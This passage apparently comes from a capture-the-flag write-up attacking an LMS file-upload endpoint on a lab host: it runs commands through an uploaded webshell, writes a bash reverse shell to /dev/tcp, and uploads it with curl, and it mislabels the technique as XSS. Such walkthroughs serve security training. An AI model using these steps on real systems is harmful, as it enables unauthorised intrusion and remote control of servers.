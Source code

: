     #### Output

    ```
    webshell.php
    ```


- We have confirmed that our webshell works. However, what happens if we want to use a command with spaces and hyphens, like 'ls -la'. URLs (and some Security Controls) don't allow for spaces and certain special characters. Our next option is to try encoding our 'ls -la' command into our URL (I use BurpSuite's Decoder tab to help me):

    #### Terminal

    ```bash
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=%6c%73%20%2d%6c%61
    ```

    #### Output

    ```
    total 12
    drwxr-xr-x 2 www-data www-data 4096 Oct 25 00:20 .
    drwxr-xr-x 6 www-data www-data 4096 Jan 20  2024 ..
    -rw-r--r-- 1 www-data www-data   33 Oct 25 00:20 webshell.php
    ```

- Now that we can comfortably craft some XSS attacks, it's time to establish a reverse shell. Reverse shells trick the victim machine into establishing a limited shell session with your attack machine. Let's write our bash script, I'll name mine rev_shell.sh

    #### rev_shell.sh

    ```bash
    #! /bin/bash

    # The attack machine ip
    attack_ip=''

    # The arbritrary port to listen on from attack machine
    attack_port=''

    /bin/bash -i >& /dev/tcp/$attack_ip/$attack_port 0>&1
    ```

- Let's upload rev_shell.sh

    #### Terminal

    ```bash
    curl -F 'bigUploadFile=@rev_shell.sh' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
    ```
